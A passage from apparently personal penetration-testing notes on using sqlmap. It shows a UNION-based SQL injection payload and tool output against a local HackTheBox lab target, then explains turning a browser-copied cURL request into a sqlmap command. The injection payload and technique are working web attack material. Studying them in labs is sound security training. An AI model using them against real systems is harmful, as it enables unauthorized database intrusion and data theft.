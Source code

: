 ```bash
    Payload: id=test' UNION ALL SELECT NULL,CONCAT(0x7176627071,0x435a6a45595a5654536763586e45714c5748486a74697668486d7463614b674548436a7971586f55,0x71786b7071)#&Submit=Submit
---
[12:51:10] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Debian 9 (stretch)
web application technology: Apache 2.4.25
back-end DBMS: MySQL >= 5.0 (MariaDB fork)
[12:51:10] [INFO] fetched data logged to text files under '/home/x7331/.local/share/sqlmap/output/127.0.0.1'

[*] ending @ 12:51:10 /2024-06-05/
```
{% endcode %}

### cURL

{% hint style="info" %}
The lab used is from the [Web Enumeration & Exploitation](https://academy.hackthebox.com/module/163/section/1544) section of the[ Attacking Enterprise Networks](https://academy.hackthebox.com/module/details/163) module from HTB.
{% endhint %}

Copy as `cURL` from browser's Network tab (Figure 1).

<figure><img src="../../../.gitbook/assets/sqlmap_curl_copy.png" alt=""><figcaption><p>Figure 1: Copying the cURL command via Mozilla's Network tab.</p></figcaption></figure>

Change `curl` to `sqlmap` (Figure 2). If a specific parameter needs to be tested, we can use the `*` as follows: `--data 'uid=1*&name=test'`.&#x20;

> _`--batch` chooses the defaults when prompted, `-v 0` reduces the verbosity level._
